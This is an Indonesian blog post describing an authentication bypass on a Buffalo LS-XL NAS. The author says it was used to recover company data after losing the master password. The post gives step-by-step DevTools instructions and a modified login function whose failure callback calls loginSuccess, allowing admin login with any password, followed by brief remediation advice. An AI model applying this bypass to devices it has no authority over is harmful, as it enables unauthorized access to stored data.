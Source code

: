 ```yaml
---
layout: post
title: Pentest NAS Buffalo LS-XL
modified: 2023-01-28T17:00:28+07:00
categories:
description: "Pentest NAS Buffalo LS-XL"
tags: [pentest, exploit, vulnerability, nas]
image:
  background: triangular.png
comments: true
share: true
date: 2023-01-28T17:00:28+07:00
---
```


Singkat cerita saya membutuhkan akses ke NAS buffalo ls-xl ini yang dimana tipe nas ini sudah sangat jadul akses untuk factory reset dan ganti password pun harus punya master aksesnya dan ternyata master aksesnya lupa sempat frustasi karena harus ada penyelamatan data dan data tersebut data penting perusahaan, sudah cek SN pun di official sudah tidak terdaftar sempat berpikir, why? sehingga saya sedikit pengkodean kreatif untuk coba menyelamatkan. Dan ternyata setelah observasi percobaan pentest, NAS memiliki vulnerability dan exploit melalui injeksi langsung devtools.

## Table of contents

- [Table of contents](#table-of-contents)
- [Proof Of Concept](#poc)
- [Remediasi](#remediasi)

## PoC

Berikut tahapan-tahapan nya:

- Buka halaman login NAS LS-XL (via IP)
- Menggunakan DevTools Chrome dan buka pada bagian sources
- Buka file login_utis.js yang berada pada folder authentication

Dan coba modifikasi code dengan membypass fungsi loginSuccess, hanya memodifikasi bagian kode dibawah ini saja :

```shell
function login(f, lang) {
  if(login_lock != 0) {
    return;
  }
login_lock = 1;
var uid = Ext.getCmp('user');
var uid_value = uid.getValue();
var pwd = Ext.getCmp('password');
var pwd_value = pwd.getValue();

f.form.submit({
  url: '/dynamic.pl',
  params: {
    bufaction: 'verifyLogin'
  },
  waitTitle: S('Please Wait...'),
  waitMsg: S('Logging In...'),
  success: function(form, action) {
    var decodedResponse = Ext.decode(action.response.responseText);
    var jsonData = decodedResponse.data;
    loginSuccess(f, action, uid_value, lang);
  },
  failure: function(form, action) {
    loginSuccess(f, action, uid_value, lang);
  }
});
};
```

- Save Ctrl+S
- login dengan username admin dengan password bebas
- Reset akun admin dengan password baru

Terdapat keamanan yang buruk pada NAS dalam hal ini dapat mensolusikan penyelamatan data, saya sengaja melakukan ini dan pentest karena terdesak dan data tersebut penting. mohon untuk tidak dicoba-coba untuk digunakan dengan hal yang tidak diinginkan ya saya disini hanya share untuk penyelamatan data saja dan buntu.


## Remediasi

Tidak untuk dicoba-coba segera untuk anda pemilik NAS simpan password dan akun master anda jangan sampai lupa, dan lakukan langsung update patching software terbaru dari official vendor NAS anda.

